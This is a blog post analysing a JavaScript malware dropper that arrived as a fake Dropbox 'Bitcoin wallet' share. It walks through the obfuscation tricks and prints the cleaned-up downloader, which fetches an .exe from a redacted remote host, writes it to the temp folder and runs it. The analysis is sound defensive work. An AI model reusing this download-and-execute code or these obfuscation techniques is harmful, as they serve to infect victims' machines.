 ```yaml
---
layout: post
title:  "Reverse-engineering an obfuscated JavaScript file and lessons learned"
date:   2016-05-26 17:43:17 +0200
categories: sec
---
```


Yesterday, I got an email from Dropbox saying that somebody had shared their Bitcoin wallet with me.

![](/static/dropbox-btc-backup-js-deobfs.png)

This looks like an accident, right? And too good to be true? Probably is.

Email appeared to really come from Dropbox. The sending IP was allowed by the SPF policies (of course, that's no guarantee, but that's not what I wanted to spend time on).

I got curious and downloaded the file. It had the `.zip` file extension but turned out to actually be a RAR-archive (weird). I unrar-ed it and got two files, one `.js` and one `.exe`. I decided to take a look on the JavaScript file, never having de-obfuscated JavaScript before. 

[Here is a gist](https://gist.github.com/benediktkr/661d841c2f44a6fb73cc67162e5f94b1) with both my cleaned-up version of the file and the original obfuscated JavaScript code. 

## Some JavaScript sourcery used. 

The obfuscated code relies on JavaScript idiosyncrasies, most of which were unfamiliar to me, since I'm not a JS developer.

In JavaScript, you can call methods on objects with `instance["method"]()`, allowing you to pass the method name as data. After discovering the encryption-function, this was a common pattern.

{% highlight javascript %}
→ "string".substr(0, 1)
← "s"
→ "string"["substring"](0, 1)
← "s"

← "string".length
← 6
→ "string"["length"]
← 6
{% endhighlight %}

In fairness to JavaScript, most other interpreted languages have this as well (for Python, see `__getattr__`). 

There were a lot of functions with random names (e.g. `bCCg()`) that accepted no arguments but returned one character only. Sometimes they had wrapped the character inside an array and returned a specific element of the array. Example:

{% highlight javascript %}
function bCCg() {
   var ZRZQ = [(9), "f", 4][1];
   return ZRZQ;
}

// Rewritten to
function bCCg() { return "f"; }
{% endhighlight %}

which translates to simply returning `"f"`.

Another JS-"feature" that was used to hide data was concatenating (using the `+` operator) a tuple and a string. In JS, of course the last element of the tuple is concatenated to the string. Oh, and if it happens to be an integer, it's implicitly parsed to it's string representation. This all makes total sense, right? 

In case it doesn't, here's an example.

{% highlight javascript %}
→ "H" + (7, 6, 5, 3, 1, "i)
← "Hi"
→ "You are number" + ("One", 1)
← "You are number 1"
{% endhighlight %}

And an example usage is the function that started out as 

{% highlight javascript %}
function YWzqkGP() {
    var fTnKjVj = [UHRF() + "h" + prLEsog() + hiz()];
    var YfMUj = [ekYr() + CfK() + "d" + xoHWF() + "A" + "t"];
    var ZQGc = fTnKjVj[0] + YfMUj[0];
    return ZQGc;
}
{% endhighlight %}

After cleaning it up, it looks like this. 

{% highlight javascript %}
function YWzqkGP() {
    var a = "char";
    var b = "C" + (9299, 6662, 8019, 8743, 5179, 5958, 4605, 3648, 7468, 7969, "o") + "d" + "e" + "A" + "t";
    return a + b;
}
{% endhighlight %}

It should be obvious that `YWzqkGP()` is just a very complicated way of writing `"charCodeAt"`.

A lot time is spent maximizing the code length. This example is *AFTER* cleaning up the tricks described above. 

{% highlight javascript %}
function EilkPvf(a) {
    return ["f", "r", "o", "m", "C", "h", "a", "r", "C", "o", "d", "e"][a];
}

function rFeBmU() {
    return EilkPvf(0) + EilkPvf(1) + EilkPvf(2) + EilkPvf(3) + EilkPvf(4) + EilkPvf(5) + EilkPvf(6) + EilkPvf(7) + EilkPvf(8) + EilkPvf(9) + EilkPvf(10) + EilkPvf(11);
}
{% endhighlight %}

We see that all calls to `rFeBmU()` can be replace with `"fromCharCode"`. Smells like code, probably to be injected with the `instanceName["methodName"]` method.

## What is it trying to do? 

This obfuscated javascript features a fairly complicated encryption function, which I have not yet reverse engineered.

Instead, I isolated it and fed the encrypted strings to it to decrypt them. Seemed easier. This line was interesting to me

{% highlight javascript %}
→ pulPiZ("0160500490551240911021201030991051250880790 [CUTOFF] 018029");
← "http://[REDACTED].103/dma_lockoader_Crypt.exe"
{% endhighlight %}

The code is trying to load [WScript](https://msdn.microsoft.com/en-us/library/at5ydy31%28v=vs.84%29.aspx) via ActiveX, which according to the documentation can "output information to the default output device (either a Windows dialog box or the command console)". 

After de-obfuscating the last big function, this is what I ended up with.

{% highlight javascript %}
function GMU(rtwjdld, kdkndmd) {}
function JqyQ() {
    var wscripteval = eval("WScript");
    var scriptfullname = wscripteval["ScriptFullName"];
    var activex_object = new ActiveXObject("MSXML2.XMLHTTP");
    activex_object["send"]();

    if (typeof WScript["echo"] == "unknown") {
        activex_object.open("GET", "http://[REDACTED].103/dma_lockoader_Crypt.exe", 0);
    }

    var fsobj = new ActiveXObject("Scripting.FileSystemObject");
	if (activex_object.Status == 200) {
        var adodb_stream = new ActiveXObject("ADODB.Stream");
        var path_probably = fsobj.GetSpecialFolder(2) + '\\' + fsobj.GetTempName();
        adodb_stream.Open();
        adodb_stream.Type = 1;
        var wscript_shell = new ActiveXObject("WScript.Shell");
        adodb_stream.Write(activex_object.ResponseBody);

        adodb_stream.Position = 0;
        adodb_stream.SaveToFile(path_probably);             
           
        adodb_stream.Close();
        wscript_shell.run("cmd /c " + path, 0);
    }
    GMU(fsobj, scriptfullname);
}

{% endhighlight %}

They are trying to download a `.exe` file, save it and execute it. How classic. I have on idea what the purpose of the empty `GMU` function is though.

## Aftermath

I contacted Dropbox and the hosting provider in the WHOIS record for the IP address in the URL. 

